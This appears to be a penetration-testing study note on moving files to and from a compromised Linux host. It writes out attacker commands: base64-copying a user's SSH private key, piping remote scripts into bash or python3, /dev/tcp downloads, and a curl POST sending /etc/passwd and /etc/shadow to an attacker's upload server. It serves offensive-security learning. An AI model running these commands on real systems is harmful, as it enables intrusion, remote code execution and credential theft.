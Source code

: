 # Linux File Transfer Methods

## Base64 encoding

This is helpful in scenarios like <mark style="color:green;">copying the ssh key of a user to our local machine.</mark>

```bash
victim@target$ cat id_rsa |base64 -w 0;echo
#Now we decode the data on the other machine:
victim@target$ echo -n "encoded string" | base64 -d > id_rsa
```

to verify if the transfer was indeed successful we could check the md5 hashes on the two machines:

```bash
attack@attack$md5sum id_rsa
```

## cURL / wget

```bash
$wget <url> -O output_filename
$curl <url> -o output_filename
```

We could turn the functioning of pipes to our advantage to make a [<mark style="color:red;">fileless attack.</mark>](https://learn.microsoft.com/en-us/defender-endpoint/malware/fileless-threats)&#x20;

```bash
victim@target$wget -q0- <url-to-a-bash-script> | bash
victim@target$curl  <url-to-a-python-script> | python3
```

{% hint style="danger" %}
The <mark style="color:red;">`-qO-`</mark> option is necessary for wget to function correctly because if not specified, it will indeed download the file.&#x20;

<mark style="color:red;">`-`</mark> stands for STDOUT which is then piped directly to the python interpreter.
{% endhint %}

## Download with Bash (/dev/tcp)

We should start a listener on a machine (our host or the target's) then use the built-in /dev/TCP device file to open a connection.

```bash
attack@attack$nc -nlvp <port>
```

<pre class="language-bash"><code class="lang-bash">victim@target$exec <a data-footnote-ref href="#user-content-fn-1">3&#x3C;></a>/dev/tcp/machine-to-connect-to/port
victom@target$echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&#x26;3
victim@target$cat &#x3C;&#x26;3 > LinEnum.sh # Reads from FD3 and saves it to LinEnum.sh
</code></pre>

Or you could upload the file from your machine using:

```bash
target@target$nc -lvp 4444 > file_on_target
```

```bash
attack@attack$exec 3<>/dev/tcp/target-ip/port
attack@attack$cat my_file >&3
```

And finally to close the connection:

```bash
victim@target$exec 3<&- 3>&-
```

{% hint style="info" %}
<mark style="color:blue;">In conclusion, the</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`/dev/tcp/hostname/ip`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is our go-to if the wget, cURL or any other method can't work since it might be already compiled (it is by default as long as bash is v2.04 or greater).</mark>

<mark style="color:blue;">The idea is to</mark>

* <mark style="color:blue;">open a listener on a machine (target or attacking host)</mark>
* &#x20;<mark style="color:blue;">launch a connection with the built-in dev file from the other.</mark>
* <mark style="color:blue;">Use a GET request or</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`cat`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">command and then redirect it to the FD... It all depends on the need and the method available since inbound or outbound connections could be denied and restricted.</mark>

<mark style="color:blue;">About the 3<> part of the command :</mark>

* <mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">refers to the file descriptor number. In Unix-like systems, file descriptors are used to manage input/output streams. File descriptors</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`0`</mark><mark style="color:blue;">,</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`1`</mark><mark style="color:blue;">, and</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`2`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">correspond to standard input, output, and error, respectively. The number</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is chosen here to create a new file descriptor for the TCP connection.</mark>
* <mark style="color:blue;">The</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`<>`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">syntax means "open for reading and writing." This opens the file descriptor</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">as both readable and writable, allowing you to send data to and receive data from the remote server.</mark>
{% endhint %}

## SSH-SCP

> `SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.
>
> `SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

Before using scp, we must start ssh:

```bash
# Running ssh
$sudo systemctl start ssh
$netstat -lnpt

# scp for Downloads:
$scp username@remote_host:/path/to/remote/file /path/to/local/directory

# scp for Uploads:
$scp /path/to/local/file username@remote_host:/path/to/remote/directory
```

## Web Uploads

#### HTTPS python server

The idea of this part is hosting a web server on our attacking machine and upload the wanted files from the target host. For this we'll need the [uploadserver module](https://github.com/Densaugeo/uploadserver).

```bash
# Installation
attack@attack$sudo python3 -m pip install --user uploadserver

# Creating a Self-Signed certificate for the HTTPS protocol
attack@attack$openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Setting up and running the server
attack@attack$mkdir https && cd https
attack@attack$sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...

# Starting the upload from the compromised machine
victim@target$curl -X POST https://attacking_IP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

{% hint style="warning" %}
The `--insecure` option is necessary since we used a Self-Signed certificate.
{% endhint %}

### Simple HTTP servers

Depending on what's installed on the compromised machine, we can run a HTTP server using one of these commands:

```bash
# 1. Python
victim@target$python3 -m http.server

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

victim@target$python2.7 -m SimpleHTTPServer

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# 2. PHP
victim@target$php -S 0.0.0.0:8000

    [Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started

# 3.Ruby
victim@target$ruby -run -ehttpd . -p8000

    [2022-05-23 09:35:46] INFO  WEBrick 1.6.1
    [2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
    [2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

After running one of these one-liners, we can then download the files we prefer using a simple wget command:

```bash
attack@attacl$wget target_ip:port/filetotransfer.txt
```

[^1]: Explained below.
